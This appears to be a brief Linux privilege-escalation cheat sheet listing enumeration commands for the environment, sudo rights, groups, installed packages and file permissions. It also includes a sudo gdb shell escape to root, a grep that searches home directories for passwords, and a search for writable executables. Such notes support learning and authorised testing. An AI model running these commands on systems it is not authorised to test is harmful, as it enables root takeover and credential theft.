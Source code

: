 ### Environment Variables
A shell's behaviour is stored in an environment. Environment variables are the variables that define the current shell session environment. They affect various aspects of a system, including processes and programs. 

**Check the current environment variables**
```bash
env || set
```

### Root Permissions
**List all the commands that the current user has access to perform as root**
```bash
sudo -l
```

### Groups
**To inspect which groups your user is a part of**
```bash
groups
```

### Abusing Sudo Permissions
If you find a binary `e.g., (gdb)` that you can run as root, there's a chance that you can abuse this privilege. 
```bash
sudo gdb -nx -ex '!sh' -ex quit
```

### Vulnerable software
**Check installed software**
```bash
dpkg -l
```

### Passwords
```
grep -ri 'password' /home/user
```

### Weak File Permissions
```bash
ls -al /etc/passwd
```

**Find a binary that is `Writable` and `Executable` by the current user**
```
find / -type f -writable -executable 2>/dev/null
```
